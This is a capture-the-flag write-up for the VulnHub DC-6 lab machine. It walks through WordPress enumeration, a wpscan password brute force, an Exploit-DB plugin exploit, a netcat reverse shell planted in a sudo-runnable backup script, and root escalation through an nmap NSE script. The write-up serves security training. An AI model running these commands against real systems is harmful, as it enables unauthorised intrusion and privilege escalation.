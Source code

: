 <h1>DC-6 Write-up</h1>

<h2>NMAP</h2>

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-wordpress-users: 
| Username found: admin
| Username found: graham
| Username found: mark
| Username found: sarah
| Username found: jens
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /readme.html: Wordpress version: 2 
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|_  /readme.html: Interesting, a readme.

```

Found Username's from nmap scan:

Add "192.168.56.51	wordy" in /etc/hosts file to access web  #Change IP to your machine's IP 

**CLUE FROM AUTHOR  :**

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

**WPSCAN :**

User Enumeration:

```wpscan --url "http://wordy" -e u ```

Password Attack :

```wpscan -U wp-users -P passwords.txt --url "http://wordy/"```

```
Username : mark 
Password : helpdesk01
```
![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-6/images/wpbrute.png)

<h3>Exploiting Active Monitor Plugin :</h3> 

Exploit : https://www.exploit-db.com/exploits/45274

* download this exploit in your pc 
* Edit the url, Change localhost:8000 to wordy and remove "-nlvp" from the nc command and lastly also update the rev shell IP 
* start listner at port 9999 (nc -lvp 9999) 
* start your pythonhttpserver,open that file, Click on Submit Request to get the shell

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-6/images/wwwshell.png)


<h3>Privilege Escalation :</h3>

Found txt file in mark's home directory contain's password user "graham"

```
username : graham
password : GSo7isUM1D4
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-6/images/grahamuser.png)

Futher Enumeration 

```sudo -l```

I can run /home/jens/backups.sh as jens user 

* add rev shell code in /home/jens/backups.sh (nc 192.168.56.1 443 -e /bin/bash)

Start Listener in your machine (nc -lvp 443)
* sudo -u jens /home/jens/backups.sh

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-6/images/jensshell.png)

<h3>ROOT PRIV ESC:</h3>

```
sudo -l
echo "os.execute('/bin/sh')" > /tmp/shell.nse
sudo nmap --script=/tmp/shell.nse
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-6/images/rootflag%20and%20privesc.png)

